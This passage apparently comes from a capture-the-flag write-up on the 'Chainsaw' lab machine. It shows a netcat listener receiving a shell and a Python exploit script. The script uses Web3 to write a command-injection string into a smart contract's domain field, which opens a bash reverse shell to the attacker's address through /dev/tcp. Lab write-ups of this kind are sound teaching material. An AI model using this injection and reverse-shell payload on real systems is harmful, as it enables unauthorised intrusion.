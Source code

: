 ```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.142.
Ncat: Connection from 10.10.10.142:34244.
bash: cannot set terminal process group (1461): Inappropriate ioctl for device
bash: no job control in this shell
administrator@chainsaw:/opt/WeaponizedPing$ id
uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)

```

### Script It

Putting that all together, I’ll write a Python script to get a shell. It will read the contract files over FTP, then use `Web3` to connect to the contract and issues the shell injection. After a short sleep, it will set the domain back to “google.com”.

```

#!/usr/bin/env python3

import json
import sys
import time
import urllib.request
from subprocess import Popen, PIPE
from web3 import Web3

infra_url = "http://10.10.10.142:9810"

# Get address over FTP
with urllib.request.urlopen('ftp://10.10.10.142/address.txt') as add_ftp:
    address = add_ftp.read().strip().decode()
print(f"[+] Got address over FTP: {address}.")

# Get json over FTP
with urllib.request.urlopen('ftp://10.10.10.142/WeaponizedPing.json') as wp_ftp:
    wp = json.load(wp_ftp)
print(f"[+] Got abi over FTP: {wp['abi']}")

web3 = Web3(Web3.HTTPProvider(infra_url))
if not web3.isConnected():
    print(f"[-] Failed to connect to {infra_url}")
    sys.exit()
print(f"[+] Connected to web3 provider: {infra_url}")

contract = web3.eth.contract(address=address, abi=wp['abi'])
web3.eth.defaultAccount = web3.eth.accounts[5]

print("[*] Starting listener on port 443")
nc = Popen(("nc -nl 443"), shell=True)

print(f"[*] Current domain value is: {contract.functions.getDomain().call()}")
contract.functions.setDomain("google.com").transact()
time.sleep(1)
contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
print(f"[+] Domain value now: {contract.functions.getDomain().call()}")
print(f"[*] Sleeping to allow connection")
time.sleep(4)
contract.functions.setDomain("google.com").transact()
```
